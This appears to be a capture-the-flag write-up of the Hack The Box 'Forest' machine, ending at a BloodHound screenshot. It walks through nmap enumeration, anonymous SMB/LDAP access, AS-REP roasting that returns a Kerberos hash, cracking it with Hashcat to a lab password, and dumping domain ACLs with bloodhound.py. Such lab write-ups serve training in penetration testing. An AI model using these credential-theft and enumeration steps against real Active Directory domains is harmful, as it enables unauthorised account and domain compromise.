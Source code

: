 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 09:56:11Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
49664/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49996/tcp open  unknown
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerate ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.

<img width="1949" height="1098" alt="image" src="https://github.com/user-attachments/assets/90f4d3c7-e13f-4db6-a4d6-f93198bb5524" />







